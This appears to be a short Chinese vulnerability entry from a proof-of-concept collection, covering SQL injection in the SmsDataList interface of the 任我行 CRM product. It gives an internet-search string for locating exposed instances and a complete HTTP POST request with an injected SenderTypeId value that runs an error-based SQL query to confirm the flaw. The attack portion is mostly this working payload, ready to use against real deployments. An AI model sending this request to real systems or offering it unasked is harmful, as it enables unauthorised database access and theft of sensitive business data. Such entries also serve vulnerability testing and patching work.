


# 任我行 CRM SmsDataList SQL注入漏洞

## 漏洞描述

*任我行CRM*系统是客户关系管理,集OA自动化办公、OM目标管理、KM知识管理、HR人力资源为一体集成的企业管理软件。

任我行 CRM SmsDataList 接口存在SQL注入漏洞，攻击者通过漏洞可以执行任意数据库语句，获取敏感信息。

## 漏洞影响

任我行 CRM

## 网络测绘

"欢迎使用任我行CRM"

## 漏洞复现

登陆页面



验证POC

```
POST /SMS/SmsDataList/?pageIndex=1&pageSize=30 HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Host: 

Keywords=&StartSendDate=2020-06-17&EndSendDate=2020-09-17&SenderTypeId=0000000000' and 1=convert(int,(sys.fn_sqlvarbasetostr(HASHBYTES('MD5','123456')))) AND 'CvNI'='CvNI
```

